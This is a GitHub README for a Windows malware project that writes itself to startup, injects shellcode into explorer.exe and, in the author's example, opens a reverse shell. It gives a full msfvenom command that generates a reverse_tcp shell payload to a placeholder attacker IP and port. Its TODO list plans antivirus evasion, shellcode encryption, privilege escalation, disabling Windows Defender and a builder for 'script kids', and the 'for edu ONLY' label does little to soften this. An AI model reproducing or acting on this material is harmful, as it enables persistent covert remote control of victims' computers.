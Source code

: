 # shellinject for edu  ONLY!



code explain the code is writing itself to windows startup then it finding the pid of explorer.exe 
and injecting shell code in my example its reverse_shell + ONWORK builder to change the shell code and exec name and more in the future

------------------------------------------------------------------------------------


before use change the shellcode to your shellcode you can generate it useing msfvenom 
++++++++++++++++++++++++++++++++++++++++++++++++++++++++++
working on builder that take the shell code from txt file
++++++++++++++++++++++++++++++++++++++++++++++++++++++++++

for example ```msfvenom --platform windows --arch x64 EXITFUNC=thread -p windows/x64/shell/reverse_tcp_rc4 LHOST=YOURE_IP LPORT=YOURE_PORT RC4PASSWORD=YOURE_PASS EXITFUNC=thread -f c --var-name=ucReverseShell```
copy it to here  
![Screenshot (8)](https://github.com/masterconi/shellinject/assets/85493153/d8ef7109-650f-40f0-af7f-aad2e9be4628)


-------------------------------------------------------------------------------------

plus you can change the executeble to be injected in here :
![Screenshot (9)](https://github.com/masterconi/shellinject/assets/85493153/02713da7-7695-45b3-9ef7-bed1fbe6e6c4)

------------------------------------------------------


to build the repo try to do it with ms_vs or g++  


i am working on a builder using gcc/g++ you can check it by the name builder.cpp/exe


i curently working in microsoft visual studio with builtin compiler and got some errors when compiling in g++


----------------------------------------------------

why i did it ?

i have nothin to do at holidays :-D

--------------------------------------------------------
TODO : make hard to detect , make the shell code encrypted ,  make readme.md more beautiful (✿◡‿◡) ,make the shell code inject "vir.dll" 


ON_WORKrn: add priv esc ,disable windows defender :) , make a builder for script_kids (like you yes you the one how reading it)（￣︶￣）


i would be happy to get help thanks

----------------------------------------------------------------------------

why the code so shity : 1:becouse i make it in my free time and i am to lazy for makeing it beautiful ,2: shutup scrypt_kiddie


